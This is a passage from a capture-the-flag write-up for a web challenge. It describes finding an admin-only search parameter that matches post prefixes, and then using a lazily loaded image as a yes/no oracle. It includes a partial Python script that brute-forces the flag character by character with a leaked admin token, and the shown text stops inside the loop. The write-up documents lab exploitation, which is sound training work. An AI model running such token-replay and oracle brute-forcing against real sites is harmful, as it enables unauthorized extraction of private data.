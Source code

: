 Unfortunately, just including this token in the posts page does not display us the admin's note ... Digging around the source code reveals another parameter `k` within the app route for /search. This is only processed when you have admin's token. It is used to generate the SQL query for posts; specifically it's used to query for posts whose content begins with whatever value k holds: 
```python
keyword = request.args.get('k', "")
...
posts = cursor.execute("SELECT author, content FROM posts WHERE content like ?", (keyword.replace("%", "").replace("?", "") + "%",)).fetchall()
# SQL query for post content that begins with whatever the k param value is
```

So we can brute-force for a post whose content begins with the flag format `W1{`, character by character until we have the whole flag. 

However, we need some sort of feedback to tell us whether a character guess is correct. 

In `list.html`, we notice that:
```
{% if posts|count > 0 %}
	<img id="customImage" src="" loading="lazy"/>
{% endif %}
```

If the SQL query generated a match, there would be more than zero posts, and this image would load. Otherwise, this image would not load. In other words, the presence of the image is the feedback we'll use to determine whether a guess was correct.

We'll similarly write a Python script to automate this: 
```python
import requests

url = "http://chall.w1playground.com:22222/search"
headers = {
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
"Accept-Encoding": "gzip, deflate",
"Accept-Language": "en-US,en;q=0.5",
"Connection": "keep-alive",
"Host": "chall.w1playground.com:22222",
"Priority": "u=0, i",
"Upgrade-Insecure-Requests": "1",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0",
}

admin_token = "5452005252181943284069771531727600864785926578645050517149423905" # leaked from previous step
flag = "W1{"

# params = {
# "token": admin_token,
# "img": "troll.jpg",
# "k": flag
# }
# response = requests.get(url, headers=headers, params=params)
# print(response.text)
# print('<img id="customImage" src="" loading="lazy"/>' in response.text)
  
while True: # don't know how long the flag is...we'll know it's the end when we get to a pt it repeats testing the digits
	for i in range(10):
		params = {
		"token": admin_token,
		"img": "troll.jpg",
		"k": flag + str(i)
		}
		print(f"trying {i}")
```